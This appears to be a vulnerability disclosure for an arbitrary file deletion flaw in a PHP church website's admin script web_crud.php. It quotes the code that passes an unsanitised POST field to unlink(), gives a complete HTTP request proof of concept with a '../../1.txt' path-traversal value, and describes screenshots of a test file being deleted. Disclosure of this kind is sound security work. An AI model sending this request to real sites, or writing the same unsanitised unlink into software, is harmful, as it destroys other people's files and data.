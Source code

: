 ### Vulnerability file address

In line 80 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photo1_img']);`,` $_POST['old_photo1_img']` parameters have not been restricted, which causes any file to be deleted

```php
    if (isset($_POST['update'])) {
        function generateUniqueFilename($file)
        {
            $file_extension = pathinfo($file['name'], PATHINFO_EXTENSION);
            $unique_filename = uniqid() . '.' . $file_extension;
            return $unique_filename;
        }

        if ($_FILES['photo1']['tmp_name'] != '') {
            $img = generateUniqueFilename($_FILES['photo1']);
            $filepath = "../../assets/images/" . $img;

            if (move_uploaded_file($_FILES["photo1"]["tmp_name"], $filepath)) {
                @unlink("../../assets/images/" . $_POST['old_photo1_img']);
            }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 370

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo1_img"

../../1.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo1";filename="1.txt"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `1.txt` file in the `church/` directory

![image-20250503210548929](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505032105038.png)



Then we execute the above poc to attack

![image-20250504201025986](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042010114.png)



Files are deleted after the attack is successful

![image-20250504201106592](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042011621.png)